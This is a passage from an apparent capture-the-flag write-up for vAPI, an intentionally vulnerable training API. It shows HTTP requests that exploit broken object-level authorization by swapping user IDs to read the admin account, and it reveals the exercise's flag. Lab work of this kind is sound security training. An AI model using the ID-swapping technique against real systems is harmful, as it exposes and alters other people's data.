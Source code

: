 # vAPI
> vAPI is Vulnerable Adversely Programmed Interface which is Self-Hostable API that mimics OWASP API Top 10 scenarios in the means of Exercises.
>
> https://github.com/roottusk/vapi

---

## API 1 [Broken Object Level Authorization]
> You can register yourself as a User , Thats it ....or is there something more?

Let's create a dummy account:

```js
Request => "POST http://{{host}}/vapi/api1/user"
{
    "username": "testuser",
    "name": "testname",
    "course": "testcourse",
    "password": "testpass"
}

Response =>
{
    "username": "testuser",
    "name": "testname",
    "course": "testcourse",
    "id": 30
}
```

Our user's ID is `30`. 
Let's retrieve our user's details:

```js
Request => "GET http://{{host}}/vapi/api1/user/30"

Response =>
{
    "id": 30,
    "username": "testuser",
    "name": "testname",
    "course": "testcourse"
}
```

Simillarly, we can check the admin user account's details by changing the user ID to `1`.
We have flag 1: `flag{api1_d0cd9be2324cc237235b}`

![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/challenges/vAPI/images/flag1.png)

Simillarly, we can also update other user's details. Let's change the account details of the admin account. 
